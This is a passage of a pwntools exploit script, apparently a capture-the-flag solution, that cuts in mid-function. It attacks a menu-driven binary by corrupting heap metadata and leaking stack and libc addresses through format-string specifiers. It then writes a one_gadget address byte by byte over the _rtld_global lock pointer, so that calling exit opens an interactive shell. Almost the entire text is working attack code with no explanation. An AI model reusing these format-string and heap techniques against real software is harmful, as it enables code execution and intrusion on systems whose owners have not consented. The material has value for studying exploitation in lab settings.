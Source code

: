 ```python
	r.sendline(str(idx))

def show(idx):
	r.recvuntil(': ')
	r.sendline('4')
	r.recvuntil('Index: ')
	r.sendline(str(idx))

def fmt(content):
	r.recvuntil("INPUT:\n")
	r.send(content+'\x00')

r.recvline()
r.sendline(str(0x3))

new(0xd18,'\n')
new(0x18,'\n')
new(0xFF8,'\n')
edit(1,'a'*0x10+p64(0x0303030303032303))
delete(2)

r.recvuntil(': ')
r.sendline('4')

fmt("%6$p\n%11$p\n%41$p\n")
stack=int(r.recvline(),16)-0x20
libc_base=int(r.recvline(),16)-libc.sym['__libc_start_main']-0xF3
target=int(r.recvline(),16)&0xFFFFFFFFFFFFFF00
success("stack: "+hex(stack))
success("libc_base: "+hex(libc_base))
success("target: "+hex(target))

offset=(target-stack)>>0x3
success("offset: "+hex(offset))

one_gadget=libc_base+0xe6c7e
_rtld_global=libc_base+0x222060
rtld_lock_default_lock_recursive=_rtld_global+0xF08

for i in range(6):
	if (i==0): fmt("%13$hhn")
	else: fmt("%"+str(i)+"c%13$hhn")
	fmt("%"+str((rtld_lock_default_lock_recursive&(0xFF<<(i<<3)))>>(i<<3))+"c%41$hhn")

fmt("%13$hhn")

for i in range(6):
	fmt("%"+str((rtld_lock_default_lock_recursive&0xFF)+i)+"c%41$hhn")
	fmt("%"+str((one_gadget&(0xFF<<(i<<3)))>>(i<<3))+"c%"+str(offset+0x6)+"$hhn")

#gdb.attach(r,"b printf")

fmt("exit\n")
r.recvline()

r.interactive()
```
